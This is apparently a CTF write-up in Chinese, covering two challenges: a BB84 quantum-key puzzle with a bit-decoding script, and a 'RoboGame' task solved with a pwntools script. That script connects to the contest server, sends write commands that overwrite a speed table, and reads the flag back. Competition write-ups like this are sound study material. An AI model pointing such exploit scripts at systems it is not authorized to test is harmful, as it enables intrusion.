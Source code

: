 ## 量子藏宝图

BB84 就是取出了制备基底和测量基底中相同的部分。发 280 个 x 和 280 个 1 过去，然后数一下测量基底里面有多少个 x，用这么多个 1 当密钥即可。进入之后就可以得到一张图片。

多次重置任务，对比得到的图片，可以发现他们基本都是相同的，只有少量成对出现的门不同，可以合理猜测他们无关紧要。而剩下的信息就只有 $q_i$ 是否连向 $q_{128}$ 了。

手动提取出来可以发现确实这就是 flag。

```python
s = '''
10111110
01100110
11001100
01101100
10100110
00100110
00011100
01101100
10100110
00001100
10100110
11011110
11100110
10000110
'''
r = []
for t in s.split():
    r.append(int(t[::-1], 2))
print(bytes(r[::-1]))
```

## 《关于 RoboGame 的轮子永远调不准速度这件事》

经测试，可以执行 9 条 w 指令。而 w 的 size 决定了可以在 `speedtb` 中跳过多少个。于是跳过不需要的，把剩下的都改写成 `0x19` 即可。

```python
from pwn import *

exp = '''w 1 3 0 0 0
w 6 1 25
w 1 3 0 0 0
w 9 1 25
w 1 3 0 0 0
w 1 1 25'''

r = remote('202.38.93.111', 11451)
r.recvuntil('token: ')
r.sendline(open('../token.txt').read())

r.recvuntil('INIT OK')

for line in exp.split('\n'):
    r.sendlineafter('> ', line)

res = []
for i in range(0x24):
    r.sendlineafter('> ', 'r %c 1' % (i + 48))
    r.recvuntil('ready\n')
    res.append(int(r.recvline().strip(), 16))

print(bytes(res))
```
